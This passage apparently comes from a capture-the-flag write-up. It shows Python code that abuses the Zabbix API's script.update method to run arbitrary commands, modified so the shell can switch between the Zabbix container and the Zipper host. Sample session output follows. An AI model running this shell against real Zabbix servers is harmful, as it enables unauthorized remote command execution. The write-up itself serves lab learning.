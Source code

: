 

     60         if cmd.lower().startswith('host '):
     61             set_host(cmd.split(' ')[1])
     62             continue



If the command starts with "host " (case insensitive), I'll split on
space and set the host to the second word. If that word matches 'zipper'
or 'zabbix', it updates `execute_on`. And then I run continue to not
send a request, but rather go back to the prompt for command.

Now, in the json for the payload for the script.update API, I'll add the
execute_on parameter:



     64 ### update
     65         payload = {
     66                 "jsonrpc": "2.0",
     67                 "method": "script.update",
     68                 "params": {
     69                     "scriptid": "1",
     70                     "command": ""+cmd+"",
     71                     "execute_on": str(execute_on)
     72                 },
     73                 "auth" : auth['result'],
     74                 "id" : 0,
     75         }



Finally one cosmetic change. I'll update the prompt to show the current
host:



     57         cmd = raw_input('\033[41m[' + hosts[execute_on]  + '_cmd]>>: \033[0m ')



Now I can run this shell, and change which host I'm interacting with:



    root@kali# python zipper_shell.py
    [*] Current host is zabbix

    [zabbix_cmd]>>:  hostname
    91cae047f48a

    [zabbix_cmd]>>:  host zipper
    [*] Current host is zipper

    [zipper_cmd]>>:  hostname
    zipper
    [zipper_cmd]>>:  host zabbix
    [*] Current host is zabbix

    [zabbix_cmd]>>:  hostname
    91cae047f48a
